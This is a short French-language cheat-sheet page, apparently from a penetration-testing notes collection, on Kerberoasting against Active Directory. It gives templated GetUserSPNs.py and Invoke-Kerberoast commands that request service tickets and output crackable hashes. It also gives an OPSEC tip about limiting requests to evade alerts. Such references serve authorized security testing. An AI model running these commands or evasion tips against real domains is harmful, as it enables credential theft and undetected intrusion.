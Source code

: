```yaml
---
title: Kerberoasting
tags: [AD, hash, spn]
os: [Windows]
difficulty: Intermediate
---
```


Kerberoasting permet d'extraire des hash de service pour des attaques offline.

!!! tip "Astuce"
    Vérifie que l'horloge est synchronisée avec le contrôleur de domaine.

=== "bash"
    ```bash
    GetUserSPNs.py -request -dc-ip {{ target_ip }} {{ domain }}/user:password
    ```

=== "pwsh"
    ```pwsh
    Invoke-Kerberoast -Domain {{ domain }} -OutputFormat Hashcat
    ```

!!! opsec "OPSEC"
    Évite de déclencher des alertes en limitant le nombre de requêtes.
